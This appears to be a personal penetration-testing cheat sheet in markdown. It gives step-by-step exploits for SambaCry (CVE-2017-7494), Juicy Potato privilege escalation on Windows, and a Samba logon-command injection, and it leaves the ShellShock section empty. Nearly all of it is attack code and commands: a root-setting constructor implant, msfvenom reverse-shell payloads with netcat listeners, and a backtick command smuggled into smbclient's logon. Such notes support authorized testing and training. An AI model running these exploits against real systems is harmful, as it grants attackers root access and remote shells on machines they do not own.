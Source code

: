 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit.md#juicy-potato">Bottom of Page</a>
</p>

# Cheatsheets - Exploits
## Table of Contents
* [CVE-2017-7494: SambaCry](#cve-2017-7494-sambacry)
* [CVE-2014-6271: ShellShock via SMTP](#cve-2014-6271-shellshock-via-smtp)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

## CVE-2017-7494: SambaCry
Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

## CVE-2014-6271: ShellShock via SMTP
```bash
# code goes here
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```
